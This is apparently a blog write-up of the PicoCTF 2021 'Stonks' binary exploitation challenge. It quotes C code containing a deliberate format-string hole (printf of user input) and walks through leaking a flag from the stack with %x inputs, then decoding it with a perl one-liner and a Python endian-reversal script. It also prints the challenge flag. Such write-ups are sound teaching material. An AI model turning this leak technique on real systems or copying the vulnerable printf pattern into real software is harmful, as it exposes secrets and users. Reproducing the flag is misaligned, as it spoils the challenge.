 +++
author = "JonathanYS"
title = 'PicoCTF 2021 Stonks Writeup'
date = "2024-03-31"
url = "/posts/Write-ups/picoctf-2021-stonks-writeup/"
image = "images/2024-thumbs/picoctf-2021-stonks-writeup.jpg"
license = "Licensed under CC BY-NC-SA 4.0"
description = "PicoCTF 2021 - Stonks challenge Write-up"
categories = [
    "Write-ups"
]
tags = [
    "pwn",
    "cybersecurity",
	"binary exploitation",
]
disableComments = false
+++


# Stonks
This challenge was part of the PicoCTF 2021 and was part of the Binary Exploitation genre. It was very fun to solve.
Let's start with the examination.

Available files: [vuln.c](/attached_files/writeups/2024/picoctf-2021-stonks-writeup/vuln.c)

## Examination
After reading a bit of the code we can detect a Format String vulnerability.
The interesting function in this program is <b style="color:blue;">buy_stonks</b>.



<pre><code>int buy_stonks(Portfolio *p) {
    if (!p) {
        return 1;
    }
    <b style="color:green;">char api_buf[FLAG_BUFFER];
    FILE *f = fopen("api","r");</b>
    if (!f) {
        printf("Flag file not found. Contact an admin.\n");
        exit(1);
    }
    <b style="color:green;">fgets(api_buf, FLAG_BUFFER, f);</b>

    int money = p->money;
    int shares = 0;
    Stonk *temp = NULL;
    printf("Using patented AI algorithms to buy stonks\n");
    while (money > 0) {
        shares = (rand() % money) + 1;
        temp = pick_symbol_with_AI(shares);
        temp->next = p->head;
        p->head = temp;
        money -= shares;
    }
    printf("Stonks chosen\n");

    // TODO: Figure out how to read token from file, for now just ask

    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    <b style="color:green;">scanf("%300s", user_buf);</b>
    printf("Buying stonks with token:\n");
    <b style="color:green;">printf(user_buf);</b>

    // TODO: Actually use key to interact with API

    view_portfolio(p);

    return 0;
}</code></pre>

The fact that there is a variable called api_buf that stores the flag's contents and is on the stack, alerts us that it might be possible to use some kind of leaking technique, to get the actual flag.
As we can see from the picture above, the program reads the contents of the flag from a file called api. The program asks us to enter some input (maximum of 300 bytes) and then prints it using printf() function from libc. A clear Format-String Vulnerability.

## Payload
We will enter lots of %xs to leak the flag value on the stack.


![Input example](/images/2024/picoctf-2021-stonks-writeup/input_example.png)

## Interpreting The Output
Now, this might look like gibrish to us. But all of these values are hexadecimal values, and some of them incoorapte to ascii values. To convert these values to ascii values, we will use the following technique.
```sh
echo -n {your-hexadecimal-values} | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```
Source of this method [here](https://stackoverflow.com/questions/1604765/how-to-convert-hex-to-ascii-characters-in-the-linux-shell#7681385).

This is the output of the above command:
<pre><code>���H�?���������p��9     !c�<b style="color:green;">ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6��}�</b>�*���T@~�~4Ο�
                                                                                �\���#�~%h������2D�����p��~ ��2x���P����~����2x�H�i!A`��2d��2x�H���?���3,��3$����2��ݯ���p��p}����3$��3,��2���p���
�M�_��P�0������b�H�Q��3$�H�0���`��3��)@�����></code></pre>

Now, the output still looks not so familiar to the human eye. This is because of two reasons:
1. The addresses of this binary are stored in little-endian (and we know that this is a 32-bit binary, by the length of the addresses).
2. We are leaking a lot of addresses from the stack. Lots of them don't have any connection to ascii values.

We will need to identify the exact values of the flag. We can do that by looking at the ascii table and determine what is the value of the letter 'o', which is the start of the little-endian flag that we are looking for. The ascii value is <b style="color:blue;">6f</b>. We can confidently delete all the values up until this value. Little-endian means that the addresses are reversed. Every 4 bytes. "pico" is the first 4 bytes of our flag and that is why the letter "o" will be the first letter of it in little-endian.
After we do this, we can copy the entire flag up until the character "}", and place it in a python program inside a variable. The following python code will help us in reversing the entire flag to be in big-endian and thus be readable for us:

```python
if __name__ == '__main__':
    message = 'ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6��}�'
    new_message = ""
    count = 0
    part_message = ""
    for _ in message:
        part_message += _
        count += 1
        if count == 4:
            new_message += "".join((list(reversed(part_message))))
            count = 0
            part_message = ""
    print(new_message)
```

After this function, we may take the output and delete all the <b style="color:blue;">�</b> characters.
The more elegant and maybe better way to do this operation would be to use RegEx.

**We have the flag!**
